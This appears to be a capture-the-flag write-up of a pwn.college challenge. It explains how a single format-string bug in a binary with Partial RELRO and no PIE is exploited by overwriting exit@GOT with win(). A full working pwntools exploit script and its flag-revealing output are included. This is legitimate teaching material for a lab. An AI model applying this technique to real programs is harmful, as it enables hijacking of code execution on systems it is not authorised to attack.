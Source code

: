 ```yaml
---
title: "Format String Attack - Format String Attack Once (Partial RELRO + no PIE)"
description: "Exploiting a single format string vulnerability in babyfmt_level9.0 with Partial RELRO + no PIE by overwriting exit@GOT to win()."
author: "İsmail BOZKURT"
date: 2025-08-23
tags:
  - binary-exploitation
  - format-string-attack
  - got-overwrite
  - partial-relro
  - no-pie
  - pwn
  - CTF
  - linux-exploitation
categories:
  - Exploitation
  - Pwn
  - Format-String-Attack
---
```


# Format String Attack - Format String Attack Once

Previous 2 challenges has infinite loops that make us limitless produce format string attack. This variant the format string attack can be executed only once by the binary. Is it ?

## babyfmt_level9.0

**Partial RELRO** and **PIE not enabled**. These indicators means this challenge gonna be easy.

```css
root@5a8cc8d1e548:/host# checksec babyfmt_level9.0
[*] '/host/babyfmt_level9.0'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

#### Finding redirection address

Also we have **win** function. That's other good sign. The rest is finding suitable target and than we are in business.

```css
root@5a8cc8d1e548:/host# readelf -s babyfmt_level9.0
...
...
...
    71: 00000000004014b9    71 FUNC    GLOBAL DEFAULT   15 init
    72: 00000000004012b6   515 FUNC    GLOBAL DEFAULT   15 DUMP_STACK
    73: 000000000040154a   487 FUNC    GLOBAL DEFAULT   15 func
    74: 00000000004018e0   101 FUNC    GLOBAL DEFAULT   15 __libc_csu_init
    75: 00000000004040f0     8 OBJECT  GLOBAL DEFAULT   26 sz_
    76: 0000000000401500    74 FUNC    GLOBAL DEFAULT   15 win --> juicy thing
    77: 00000000004040f8     8 OBJECT  GLOBAL DEFAULT   26 rp_
    78: 0000000000404108     0 NOTYPE  GLOBAL DEFAULT   26 _end
    79: 0000000000401200     5 FUNC    GLOBAL HIDDEN    15 _dl_relocate_sta[...]
    80: 00000000004011d0    47 FUNC    GLOBAL DEFAULT   15 _start
    81: 0000000000404100     8 OBJECT  GLOBAL DEFAULT   26 sp_
    82: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND sendfile@@GLIBC_2.2.5
    83: 0000000000404090     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
    84: 0000000000401731   425 FUNC    GLOBAL DEFAULT   15 main
    85: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.2.5
    86: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND open@@GLIBC_2.2.5
    87: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND exit@@GLIBC_2.2.5
    88: 0000000000404090     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
    89: 0000000000401000     0 FUNC    GLOBAL HIDDEN    12 _init
    90: 00000000004040c0     8 OBJECT  GLOBAL DEFAULT   26 stderr@@GLIBC_2.2.5
```

#### Finding target address

The below screenshot shows, vulnerable **func** function calling **printf** after than calling **exit**. 
Since binary have **Partial RELRO** protection and **PIE not enabled**. That means **GOT** lies in writable memory map and  the addresses constant.

If **exit got entry** overwritten with **win address** . Flag will gathered. 

![](images/840053495026e3f36a88262f848020ba.png)

### Find offset and padlen values

This is previously generated script's output. The script can be found previous posts.

```css
[+] Receiving all data: Done (195B)' stopped with exit code 0 (pid 263)
[DEBUG] Received 0xc3 bytes:
    b'Here is the result:\n'
    b'Your input is:                                                                                                                  \n'
    b'aaaabaaacaaadaaaeaaaSTART0x6161646161616361END'
[*] Found format string offset: 63
[+] User input starts at  : 63
[+] Needed pads           :7
[+] Numbwritten           :0
```

### get_flag.py

The **numbwritten** value can be calculated like [07-Format String Attack - Redirect Code Execution (Full Relro+PIE Enabled)](/Dreamer-Wiki/Pwn/Linux/Format%20String%20Vulnerabilities/07-Format-String-Attack-Redirect-Code-Execution-(Full Relro+PIE Enabled)/)

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level9.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level9.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *func+482
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

def send_fmt(payload):
    io.sendafter(b'printf on your input and then exit.\n', payload)

io = start()

#####################
#### Write Part #####
#####################
offset = 63
padlen = 7

f = FmtStr(send_fmt, offset=offset, padlen=padlen, numbwritten=0x81)
f.write(exe.got['exit'], exe.sym.win)
f.execute_writes()

info(io.recv())

io.close()
```

**The Result:**

```css
[+] Starting local process '/host/babyfmt_level9.0_remotelibc': pid 423
/usr/local/lib/python3.12/dist-packages/pwnlib/log.py:396: BytesWarning: Bytes is not text; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  self._log(logging.INFO, message, args, kwargs, 'info')
[*] Here is the result:
    Your input is:                                                                                                                  
    kgdjvnq                                                                                                                       #                    \x00                                          aaaabax@@You win! Here is your flag:
    pwn.college{wPA**************************************EzW}
    You win! Here is your flag:
[*] Stopped process '/host/babyfmt_level9.0_remotelibc' (pid 423)
```

